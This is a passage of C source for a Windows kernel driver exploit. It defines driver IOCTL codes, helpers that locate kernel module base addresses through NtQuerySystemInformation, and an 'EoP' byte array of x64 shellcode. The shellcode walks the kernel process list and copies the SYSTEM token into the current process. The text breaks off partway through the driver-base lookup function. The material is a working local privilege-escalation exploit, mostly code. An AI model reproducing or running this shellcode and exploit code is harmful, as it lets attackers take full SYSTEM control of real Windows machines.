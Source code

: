 
```C
#include<windows.h>
#include<winternl.h>
#include<stdio.h>

#pragma comment(lib,"ntdll.lib")

#define IOCTL_PROTECT 0x226203
#define IOCTL_UNPROTECT 0x226207
#define IOCTL_ACT 0x22620b

HANDLE hDevice;

char EoP[] = "\x65\x4C\x8B\x0C\x25\x88\x01\x00\x00\x4D\x8B\x89\x20\x02\x00\x00\x4D\x8B\x81\xE0\x03\x00\x00\x4C\x89\xC8\x48\x8B\x80\xF0\x02\x00\x00\x48\x2D\xF0\x02\x00\x00\x4C\x39\x80\xE8\x02\x00\x00\x75\xEA\x48\x89\xC1\x48\x81\xC1\x58\x03\x00\x00\x4C\x89\xC8\x48\x8B\x80\xF0\x02\x00\x00\x48\x2D\xF0\x02\x00\x00\x48\x83\xB8\xE8\x02\x00\x00\x04\x75\xE9\x48\x89\xC2\x48\x81\xC2\x58\x03\x00\x00\x48\x8B\x12\x48\x89\x11\xC3";


#define SystemModuleInformation 11
#define SystemExtendedProcessInformation 57
#define SystemHandleInformation 16

typedef struct _RTL_PROCESS_MODULE_INFORMATION {
	HANDLE Section;
	PVOID MappedBase;
	PVOID ImageBase;
	ULONG ImageSize;
	ULONG Flags;
	USHORT LoadOrderIndex;
	USHORT InitOrderIndex;
	USHORT LoadCount;
	USHORT OffsetToFileName;
	UCHAR FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, * PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES {
	ULONG NumberOfModules;
	RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, * PRTL_PROCESS_MODULES;

ULONG64 getDrvBase(const char* drvName) {
	NTSTATUS status;
	ULONG i;
	PRTL_PROCESS_MODULES ModuleInfo;

	ModuleInfo = (PRTL_PROCESS_MODULES)VirtualAlloc(NULL, 1024 * 1024, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); // Allocate memory for the module list
	if (!ModuleInfo) {
		printf("VirtualAlloc failed (%d)\n", GetLastError());
		return -1;
	}

	if (!NT_SUCCESS(status = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemModuleInformation, ModuleInfo, 1024 * 1024, NULL))) {
		printf("NtQuerySystemInformation failed(%#x)\n", status);
		VirtualFree(ModuleInfo, 0, MEM_RELEASE);
		return -1;
	}

	ULONG64 drvBase = 0;
	printf("looking for %s ....", drvName);
```